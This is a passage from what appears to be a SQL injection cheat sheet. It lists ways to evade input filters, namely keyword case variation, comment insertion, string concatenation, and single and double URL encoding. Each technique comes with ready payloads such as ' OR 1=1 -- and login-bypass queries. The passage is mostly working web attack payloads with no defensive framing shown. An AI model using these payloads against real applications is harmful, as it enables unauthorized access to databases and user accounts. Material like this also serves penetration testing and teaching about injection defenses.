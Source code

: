 - **Using Case Variations:** Altering the case of SQL keywords can sometimes bypass filters that are case-sensitive or only detect specific cases.

```
' OR 1=1 --
' oR 1=1 --
' Or 1=1 --

SELECT * FROM users WHERE username = 'AdMiN' OR '1'='1';
```

- **Comment Injection:** Using comments (`/**/`) to break up keywords can bypass filters that look for specific strings like `OR '1'='1'`.

```
SELECT * FROM users WHERE username = 'admin'/**/OR/**/'1'='1';
```

- **Using Inline Comments:** Inserting comments (`/**/`) between keywords can bypass filters that do not account for such obfuscation.

```
' OR/**/1=1 --
' OR 1/**/=/**/1 --

SELECT * FROM users WHERE username = 'admin'--' AND password = 'password';
```

- **Using String Concatenation:** Using string concatenation operators (`||` or `+`) can bypass filters by breaking up the payload.

```
' OR '1'='1 --
' OR 'A'||'B'='AB' --
```

## Bypassing Input Sanitization
Exploit weaknesses in input sanitization mechanisms that fail to correctly handle specific characters or sequences.

- **Using URL Encoding:** URL encoding special characters (e.g., `%27` for `'`) can bypass input validation that doesn't decode the input before sanitization.

```
%27%20OR%201%3D1%20--

SELECT * FROM users WHERE username = 'admin'%20OR%20'1'%3D'1';
```

- **Double URL Encoding:** Double encoding the input can bypass input validation routines that only decode once.

```
%2527%2520OR%25201%253D1%2520--

SELECT * FROM users WHERE username = '%2561%2564%256D%2569%256E' OR '1'='1';
```
